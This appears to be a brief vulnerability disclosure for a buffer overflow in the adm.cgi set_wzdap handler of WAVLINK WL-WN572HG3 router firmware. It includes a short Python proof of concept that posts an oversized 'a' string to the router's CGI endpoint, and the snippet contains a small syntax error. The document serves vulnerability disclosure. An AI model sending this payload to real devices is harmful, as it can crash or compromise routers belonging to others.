

# buff overflow

## WAVLINK_WL_WN572HG3

version: 20220801

## Description:

There is a buff overflow in adm.cgi/set_wzdap

## Source:

you may download it from : 

https://www.wavlink.com/en_us/firmware/details/1f4fea6a58.html##

 Analyse:



get value from wlan_ssid2g, and we can set TouchLinkEn in wireless.cgi, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'key': + payload})
```
